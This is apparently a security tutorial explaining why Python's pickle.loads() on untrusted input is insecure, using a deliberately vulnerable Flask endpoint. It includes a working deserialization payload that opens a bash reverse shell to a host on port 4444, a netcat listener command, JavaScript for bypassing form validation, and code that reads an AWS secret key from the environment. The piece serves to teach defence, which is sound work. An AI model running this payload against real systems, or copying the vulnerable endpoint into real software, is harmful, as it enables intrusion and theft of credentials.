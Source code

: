 # A Jar Full of Trouble: Why `pickle.loads()` Is Inherently Insecure

![header.png](images/header.png)

## What Is Pickle and Why It's Dangerous

The python `pickle` library is an object serializer. It takes input and stores it perfectly and, when unserialized, returns it exactly how you sent it. This can be great in some cases, storing program state, caching, etc.

However, it has no filter, and will return exactly what you give it. The Python [pickle docs note](https://docs.python.org/3/library/pickle.html):

*"Warning: The pickle module is not secure. Only unpickle data you trust.*

*It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with."*

So yeah, let's do that.


## Setting the Trap: A Minimal Flask App

We are going to set up a minimal Docker app, running a minimal Flask app form; served by gunicorn. This could be talking to anything on the backend, or sending data to redis, a db, etc. But for our purposes we aren't going to show that.
Our project looks like this:

```.
├── app
│   ├── app.py
│   └── templates
│       └── form.html
├── docker-compose.yml
├── Dockerfile
├── .env
└── requirements.txt
```
And our app:

```python
from flask import Flask, request
import pickle, base64

app = Flask(__name__)

@app.route('/submit', methods=['POST'])
def submit():
    payload = request.form['payload']
    decoded = base64.b64decode(payload)
    obj = pickle.loads(decoded)  #<--Remote code execution
    return "Unpickled: {}".format(obj)
```

## The Exploit: From Payload to Shell

You can craft a payload like this:

```python
import pickle, base64, os

class RCE:
    def __reduce__(self):
        return (os.system, ("bash -i >& /dev/tcp/192.168.1.99/4444 0>&1",))

payload = pickle.dumps(RCE())
print(base64.b64encode(payload).decode())
```

Then paste the result into the web form and receive a reverse shell.

Example here, I make a listener on my remote machine:

```nc -nvlp 4444```

Then trigger my payload and get my shell:

![Picture1.png](images/Picture5.png)

## Why Pydantic Can’t Save You

```python
decoded = base64.b64decode(payload)
obj = pickle.loads(decoded)  # RCE happens here
validated = PydanticModel(**obj)  # too late
```

By the time Pydantic sees the data, the damage is done, this gets me the same shell, root user, etc. 


## Container Hardening That (Kinda) Helps

Use multi-stage builds, non-root users, `cap_drop`, and `read_only` flags in your Dockerfile and `docker-compose.yml`.

```yaml
cap_drop:
  - ALL
read_only: true
security_opt:
  - no-new-privileges:true
```

But remember: this only minimizes damage **after compromise**.

You can see there is a no root, and some other restrictions here, but I still have a shell and can either pivot or escalate here:

![Picture9.png](images/Picture9.png)

## Frontend Validation is Useless

JavaScript can be bypassed in 3 seconds:

```js
document.forms[0].payload.value = "malicious_base64_pickle";
document.forms[0].submit();
```
![Picture10.png](images/Picture10.png)

Or just remove validation entirely:

```js
document.forms[0].removeAttribute("onsubmit");
```

## Leaking `.env` Secrets

In addition to an RCE, and attacked could also use:


```python
import os
print(os.environ.get("AWS_SECRET_ACCESS_KEY"))
```
To get API/ENV keys which could give them more access into the environment. 

## TL;DR

- Never `pickle.loads()` untrusted input. **Ever.**
- Schema validation only helps **before** deserialization, not after.
- Container hardening reduces impact, not root cause.
- JavaScript validation is decoration.
- Secrets in `.env` are not safe if your container is compromised.

---
